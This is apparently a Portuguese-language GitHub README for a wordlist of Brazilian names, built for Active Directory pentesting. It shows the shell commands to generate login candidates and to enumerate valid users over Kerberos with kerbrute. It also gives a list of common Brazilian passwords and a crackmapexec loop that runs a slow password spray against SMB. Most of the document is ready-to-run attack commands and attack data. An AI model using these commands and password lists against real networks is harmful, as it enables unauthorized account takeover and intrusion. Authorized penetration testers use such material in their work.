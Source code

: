 # Wordlist de nomes brasileiros  
> Este projeto surgiu no meio de um pentest aonde eu tinha somente acesso ao protocolo kerberos e o smb e precisava adivinhar logins de rede para realizar uma ataque de passwordspray.  

## Arquivos    
#### first-name-pt-br.txt:  
Contém uma lista de primeiros nomes brasileiros como por exemplo ana, carlos, henrique, etc...  

#### second-name-pt-br.txt:  
Este contém uma lista de sobrenomes brasileiros como carvalho, silva, souza, etc...  

#### name_and_surname.txt:  
Este arquivo contém uma mesclagem de primeiro nome e sobrenome.  

#### wordlist_login_pt_br.txt:  
Uma wordlist criada com o script python ```namemash.py``` para utilizar como teste para adivinhar logins validos.  

#### namemash.py:  
Script python para gerar padrões de login de rede.  

## Gerando logins:  
```bash
Smaug@erebor:~$ wget https://gist.githubusercontent.com/Outs1d3r-Net/4d9d674ce2885e282409fc2253f5df6b/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Smaug@erebor:~$ for s in $(cat second-name-pt-br.txt);do for p in $(cat first-name-pt-br.txt);do echo "$p $s" >> name.txt;done;done
Smaug@erebor:~$ cat name.txt| sort | uniq > name_and_surname.txt; rm name.txt
Smaug@erebor:~$ python3 namemash.py name_and_surname.txt >> wordlist_login_pt_br.txt
```  
## Descobrindo logins validos:  
```
Smaug@erebor:~$ nmap -p88 192.168.0.1/24 --open
Smaug@erebor:~$ git clone https://github.com/ropnop/kerbrute; cd kerbrute
Smaug@erebor:~$ go build .
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL wordlist_login_pt_br.txt -t 200
```
#  
![evidence](img/img.png)  
#  
## Checkpoint:  
```
Smaug@erebor:~$ cat wordlist_login_pt_br.txt |nl |grep beatriz.araujo
Smaug@erebor:~$ cat wordlist_login_pt_br.txt |tail -n $(($(wc -l wordlist_login_pt_br.txt | cut -d " " -f 1)-366773)) >> tmp
Smaug@erebor:~$ mv tmp wordlist_login_pt_br.txt
```
## Acelerando o processo:  
```
Smaug@erebor:~$ tac wordlist_login_pt_br.txt > w.txt
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL wordlist_login_pt_br.txt -t 200
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL w.txt -t 200
```
#### pass.txt:  
```
Mudar@123
P@ssw0rd
Pa55w.rd
Microsoft.123
Musc1234
Brasil@2020
Mudar123@
Busca123
Aval1234
Auto1234
Brasil@2019
Mudar123*
Bela@123
Senha123@
Mudar123
Email@123
Cambiar123@
Brasil123@
Mudar321@
q1w2e3R$
Brasil@1234
abcd=1234
Deus@123
Brasil@123
Brasil123
Cambiar@123
123qwe...
Mudar1234!
Jesus@123
Jesus@10
Senha231
Maria@123
Brasil@321
Password@2022
Brasil@1991
```  
## Ataque de LOW-AND-SLOW PasswordSpray:  
```bash
Smaug@erebor:~$ for p in $(cat pass.txt);do crackmapexec smb 192.168.0.10 -u valid_users.txt -p "$p" -d AD_NAME.LOCAL; sleep 400;done
```
  
:frog:  
